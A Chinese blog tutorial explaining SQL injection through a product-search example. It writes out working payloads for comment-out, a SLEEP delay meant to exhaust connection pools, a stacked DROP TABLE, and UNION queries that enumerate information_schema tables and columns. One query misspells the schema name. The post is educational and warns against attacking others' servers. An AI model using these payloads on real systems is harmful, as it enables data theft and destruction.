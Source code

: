 ```yaml
---
title: SQL注入基本原理
subtitle: 知已知彼，百战不殆。
description: sql,sql injection,sql注入
date: 2019-11-24
layout: default
bg_url: "assets/images/code.jpg"
category: 技术
---
```


## SQL注入基本原理

WEB技术发展日新月异，但是徒手拼SQL的传统手艺还是受相当多的开发者亲睐。毕竟相比于再去学习一套复杂的[ORM](https://en.wikipedia.org/wiki/Object-relational_mapping)规则，手拼更说方便，直观。通常自己拼SQL的人，应该是有听说过**SQL注入**很危险，但是总是心想：我的SQL语句这么简单，不可能被注入的。

花3分钟看懂这个完整的例子，从今往后应该再也不会手拼SQL啦。

### 简单场景

有一个WEB界面提供输入商品名称，展示对应价格，生产日期及生产地信息。例如输入Hammer展示：

| 产品        | 价格  | 生产地   | 生产日期   |
| ----------- | ----- | -------- | ---------- |
| Claw Hammer | 12.98 | American | 2019.11.07 |
| Club Hammer | 29.98 | Canada   | 2019.11.11 |

我们跳过了搭建Web搜索界面的过程，直接关注重点部分: **SQL注入**。

如果要实现以上功能，那么我们大致可以猜到服务器使用的SQL语句如下：

```sql
SELECT ? FROM ? WHERE ? LIKE '%Hammer%';
```

其中`?`表示目前我们并不知道具体的表名和字段名，此SQL唯一可以被操纵的就是单引号里面的输入内容`'%Hammer%`。假如我们直接在查找框里输入一个单引号。即变成

```sql
select ? from ? where ? Like '%'%';    
```

这样拼接后造成SQL语法错误，得不到任何结果，我们需要使用`--`来把最后一个单引号注释掉。

```sql
select ? from ? where ? Like '%'; -- %';    
```

`--`后的是注释内容(你也可以用`#`），这样你可以得到所有的产品信息，目前为止，还是没有嗅到危险的信号。

| 产品         | 价格  | 生产地   | 生产日期   |
| :----------- | ----- | -------- | ---------- |
| Claw Hammer  | 12.98 | American | 2019.11.07 |
| Club Hammer  | 29.98 | Canada   | 2019.11.11 |
| Paring Knife | 10.98 | China    | 2019.11.11 |
| Boning Knife | 19.98 | China    | 2019.01.01 |

### 小试牛刀and

紧紧抓住上一步中可以扩展的单引号部分。来一个简单的延时语句试一试:

```sql
select ? from ? where ? Like '%Hammer%' and 1 = SLEEP(2); -- %';  
```

这时查询会2秒后才返回结果，如果把时间延长，用脚本多点几次查询，一下就能把数据库的连接池用完。

当然，还有破坏力更强的！

```sql
select ? from ? where ? Like '%Hammer%'; drop table xxxx; -- %'; 
```

可以直接把表/数据库直接删除掉，至于如何知道引数据库中有哪一些表(即如何确定上句SQL中的`xxxx`)呢？

### 为所欲为union

 我们需要知道此数据库有哪一些表！这样才能能拿到有用的信息。

使用`union`可以把不同表的内容拼在一起，小试一下：

```sql
select ?,?,?,? from ? where ? Like '%Hammer%' UNION (select 1,2,3,4 from dual); -- %';  
```

| 产品        | 价格  | 生产地   | 生产日期   |
| :---------- | ----- | -------- | ---------- |
| Claw Hammer | 12.98 | American | 2019.11.07 |
| Club Hammer | 29.98 | Canada   | 2019.11.11 |
| 1           | 2     | 3        | 4          |

可以看到我们把假数据`1，2，3，4`成功地拼接到搜索结果中。

Mysql系统自带的信息都存在`information_schema`数据库中。我们试着在里面找找有用的信息。

```sql
select ? from ? where ? Like '%Hammer%' UNION (select TABLE_NAME,TABLE_SCHEMA,3,4 from information_schema.tables); --%';  
```

| 产品        | 价格    | 生产地   | 生产日期   |
| :---------- | ------- | -------- | ---------- |
| Claw Hammer | 12.98   | American | 2019.11.07 |
| Club Hammer | 29.98   | Canada   | 2019.11.11 |
| authors     | hawkeye | 3        | 4          |
| products    | hawkeye | 3        | 4          |
| user        | hawkeye | 3        | 4          |
| ....        | ....    | 3        | 4          |

现在知道了这些数据库名和表名，所有人都对它为所欲为了！(**包括上面执行的DROP**)。

看着列表一猜就能知道我们目前查的是products表，接下来我们再把products具体的字段也挖出来。

```sql
select ? from ? where ? Like '%Hammer%' UNION (select COLUMN_NAME,TABLE_SCHEMA,3,4 from imformation_schema.columns where table_name = 'products'); -- %';  
```

| 产品        | 价格    | 生产地   | 生产日期   |
| :---------- | ------- | -------- | ---------- |
| Claw Hammer | 12.98   | American | 2019.11.07 |
| Club Hammer | 29.98   | Canada   | 2019.11.11 |
| id          | hawkeye | 3        | 4          |
| name        | hawkeye | 3        | 4          |
| price       | hawkeye | 3        | 4          |
| address     | hawkeye | 3        | 4          |
| updated_at  | hawkeye | 3        | 4          |

所以，通过上面2步，我们知道了表名和字段名，那么查询API的完整SQL应该是(把上面的`?`都补全啦)：

```sql
select name,price,address,updated_at from products where name like '%Hammer%';
```

通过不断重复以上几个步骤，你就可以通过这一个小小的入口把数据库的所有信息(比如上面发现的`user`表🤤)都翻个遍。

注意：以上都是在自己的机器上尝试的，千万不要越界去hack别人家的服务器！

如果你SQL注入想要更深入/系统的学习，可以使用当然你可以自己本地搭建[DVWA](https://github.com/ethicalhack3r/DVWA)，或挑战[HackMe-SQL-Injection-Challenges](https://github.com/breakthenet/HackMe-SQL-Injection-Challenges)。

